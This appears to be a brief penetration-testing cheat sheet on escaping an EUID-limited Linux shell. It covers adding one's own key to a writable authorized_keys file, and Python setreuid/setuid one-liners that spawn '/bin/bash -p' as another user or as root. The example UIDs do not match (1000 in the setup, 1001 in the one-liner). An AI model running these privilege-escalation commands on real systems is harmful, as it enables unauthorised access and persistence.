 # Techniques to Escape EUID Limited Shell to UID Shell

## For normal euid

1) using public key authentication technique to escape

-check the .ssh if we have write permission on authorized_keys

-write our own public key into the authorized_keys file

-ssh into the user with our own private key

//notes: the public-private key pair can be generated using ssh-keygen

2) using python to setreuid to escape

current setup:
```
euid user: 1000(Eve)
uid user: 33 (www-data)
```
rough idea how it works executing step by step:
```
$python
>>import os
>>os.setreuid(1000,1000)	#setreuid(ruid,euid)
>>os.system("/bin/bash -p")
```
one line command:
```
python -c 'import os;os.setreuid(1001,1001);os.system("/bin/bash -p")'
```
## For root euid

1) can use the normal euid user public key authentication technique
2) use python to setuid & escape EUID limited shell

rough idea how it works executing step by step:


```
#python
>>import os
>>os.setuid(0)
>>os.system("/bin/bash -p")
```
one line command:
```
python -c 'import os;os.setuid(0);os.system("/bin/bash -p")'
```
